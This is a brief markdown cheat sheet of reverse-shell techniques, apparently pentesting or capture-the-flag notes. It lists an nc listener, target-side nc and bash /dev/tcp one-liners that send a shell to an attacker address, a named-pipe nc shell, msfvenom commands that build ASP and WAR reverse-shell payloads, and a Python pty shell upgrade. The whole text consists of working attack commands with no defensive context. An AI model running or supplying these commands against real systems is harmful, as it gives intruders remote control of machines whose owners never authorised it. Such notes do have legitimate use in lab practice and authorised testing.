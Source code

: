 # Reverse shells

Attacker runs:
```
nc -nvlp <port>
```

Target runs:
```
nc -nv <ip> <port> -e <cmd>
```
or:
```
bash -i >&/dev/tcp/x.x.x.x/443 0>&1
```
OR:
```
tail -n 0 -f /tmp/1 | /bin/sh 2>&1 | nc -nv LHOST LPORT 1> /tmp/1
```


## Metasploit venom

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=443 -f asp > msfshell.asp
```

## Interactive shell upgrade

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

## WAR

```
msfvenom -p java/shell_reverse_tcp LHOST=tun0 LPORT=443 -f war > hacketyhack.war
```
